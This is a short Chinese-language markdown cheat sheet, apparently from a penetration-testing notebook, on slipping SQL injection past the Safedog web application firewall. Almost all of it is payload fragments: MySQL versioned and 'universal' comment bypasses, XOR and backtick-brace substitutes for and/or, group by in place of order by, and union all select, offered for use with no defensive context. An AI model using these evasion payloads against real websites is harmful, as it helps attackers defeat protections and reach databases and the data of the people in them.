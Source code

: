 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607203307391.png" alt="image-20230607203307391" style="zoom:33%;" />

## SQL注入-过狗

### 常见的WAF绕过语句

#### 注释

```
/*xxx*/：在SQL里，多行解释是 /* */
/*!xxx*/:MySQL扩展了解释的功能，如果后面加了!，那么注释符号将被执行
/*!50001xxxx*/：这里的50001表示如果数据库版本是：5.00.01以上版本，该语句才会被执行
# 最新版安全狗万能注释符绕过
/*//--**/
/*/!--**/
/*/-*!!*/
```

#### 替换

##### and、or替换

```
1、&&和||
2、使用异或或截断：?id=1^1^0		?id=1^0^0
3、使用{``operation}：and{`test` 1=2}		and{`test` 1=2}
4、直接使用真、假：&& true		&& false
```

##### order by替换

```
group by
```

##### union select

```
union all select
```
